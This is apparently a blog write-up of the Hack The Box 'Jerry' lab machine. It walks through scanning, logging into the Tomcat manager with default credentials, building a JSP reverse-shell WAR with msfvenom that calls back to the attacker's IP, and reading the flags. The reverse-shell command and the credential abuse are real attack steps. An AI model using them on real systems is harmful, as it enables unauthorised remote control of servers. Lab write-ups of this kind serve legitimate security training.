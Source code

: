 ```yaml
---
layout: PostSimple
date: 2020-04-20
title:     "Hack The Box - Jerry"
tags: ['windows','easy','tomcat']
---
```



![694398c04fbbb4b4c6b507180ee3fb06.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jerry/70f494906c3d48118c3b9a09dc3e7620.png)

We are going to pwn Jerry from Hack The Box.

Link : [https://www.hackthebox.eu/home/machines/profile/144](https://www.hackthebox.eu/home/machines/profile/144)

Let's Begin with our Initial Nmap Scan.

## Nmap Scan Results:

```
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2012 (91%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows 7 Professional (87%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows 7 or Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
```

## HTTP:

Only HTTP Port is open, and its running `Tomcat` service and its version is `7.0.88`. We get the default tomcat configuration page.


![679f2e5cfa08b4e9f4bbcebeed0010af.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jerry/763886848f9a45c6aac20183903457fe.png)


## Gobuster Results:
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.95:8080/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/04/20 10:22:14 Starting gobuster
===============================================================
/aux (Status: 200)
/com1 (Status: 200)
/com2 (Status: 200)
/com3 (Status: 200)
/con (Status: 200)
/docs (Status: 302)
/examples (Status: 302)
/favicon.ico (Status: 200)
/host-manager (Status: 302)
/lpt1 (Status: 200)
/lpt2 (Status: 200)
/manager (Status: 302)
===============================================================
2020/04/20 10:24:23 Finished
===============================================================
```

`/manager`
There is a login page for manager.So let’s try to access it .
![a0986527fad314f30d5833f4792350ad.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jerry/76e47a71750346bbadcb1f91634d868f.png)
The default login credentials for Tomcat. You can get [here](https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown).

Logged in successfully with `tomcat : s3cret`


![adeb7712828d540a6af85e0050add2d8.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jerry/2c7cfa06a42540c8ad26bc835670ba73.png)

Here we can see the information about the box.


![1163529f91334808e8417d5e61f4825f.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jerry/af8940be7c0141c4a88476e5b0ca0925.png)

There is a option to upload `WAR` files.


![ea70bbc644929d40c4fdc22a7bdcb11c.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jerry/e12823f25b6d4e80a75bab9783e40150.png)

> WAR file is a file used to distribute a collection of JAR-files, JavaServer Pages, Java Servlets, Java classes, XML files, tag libraries, static web pages and other resources that together constitute a web application.

We can use `msfvenom` for generating a `.war` format payload.
```
root@w0lf:~/CTF/HTB/Boxes/Jerry# msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.5 LPORT=1234 -f war > shell.war
Payload size: 1088 bytes
Final size of war file: 1088 bytes
```
## Getting Shell:


![1f6a90af94b8fa8eb5ec47af6aa16476.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jerry/27cfc16afbfa4949aac984950183cbaf.png)

The file name is `shell.war` so I can access it as `/shell`

![46508d9cfbb7f76846acbd7434f520bf.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jerry/a779bab5194b478c98de5c4e91c7da8f.png)

```
C:\Users\Administrator>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\Users\Administrator

06/18/2018  11:31 PM    [DIR](DIR)          .
06/18/2018  11:31 PM    [DIR](DIR)          ..
06/19/2018  06:43 AM    [DIR](DIR)          Contacts
06/19/2018  07:09 AM    [DIR](DIR)          Desktop
06/19/2018  06:43 AM    [DIR](DIR)          Documents
06/19/2018  06:43 AM    [DIR](DIR)          Downloads
06/19/2018  06:43 AM    [DIR](DIR)          Favorites
06/19/2018  06:43 AM    [DIR](DIR)          Links
06/19/2018  06:43 AM    [DIR](DIR)          Music
06/19/2018  06:43 AM    [DIR](DIR)          Pictures
06/19/2018  06:43 AM    [DIR](DIR)          Saved Games
06/19/2018  06:43 AM    [DIR](DIR)          Searches
06/19/2018  06:43 AM    [DIR](DIR)          Videos
               0 File(s)              0 bytes
              13 Dir(s)  27,602,595,840 bytes free

C:\Users\Administrator>cd Desktop
cd Desktop

C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\Users\Administrator\Desktop

06/19/2018  07:09 AM    [DIR](DIR)          .
06/19/2018  07:09 AM    [DIR](DIR)          ..
06/19/2018  07:09 AM    [DIR](DIR)          flags
               0 File(s)              0 bytes
               3 Dir(s)  27,602,595,840 bytes free
               
C:\Users\Administrator\Desktop>cd flags
cd flags

C:\Users\Administrator\Desktop\flags>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\Users\Administrator\Desktop\flags

06/19/2018  07:09 AM    [DIR](DIR)          .
06/19/2018  07:09 AM    [DIR](DIR)          ..
06/19/2018  07:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               2 Dir(s)  27,602,595,840 bytes free

C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
type "2 for the price of 1.txt"
user.txt
70----------------------------00

root.txt
04----------------------------0e
               

```
